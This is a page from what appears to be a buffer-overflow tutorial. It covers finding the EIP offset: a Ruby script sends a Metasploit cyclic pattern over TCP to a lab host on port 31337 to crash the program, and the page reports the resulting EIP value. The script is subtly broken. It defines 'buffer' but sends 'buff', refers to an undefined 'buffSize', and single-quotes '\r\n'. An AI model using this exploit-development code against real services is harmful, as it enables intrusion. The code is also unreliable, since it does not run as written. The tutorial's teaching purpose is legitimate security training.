

In order to find the offset value in the memory, we need to create a pattern. We can generate a pattern by using pattern_create.rb in Kali:


Now, we need to copy and paste it into our offset template and run it.
```Ruby
require 'socket'

buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq"
RHOST = "192.168.0.227"
RPORT = 31337

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```   
After running it, we'll see that the program crashes at 39654138 EIP value:



Now, we know that the program crashes at 500 bytes with the EIP value of 39654138. We can find the exact offset value by using pattern_offset.rb in our Kali machine:


[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
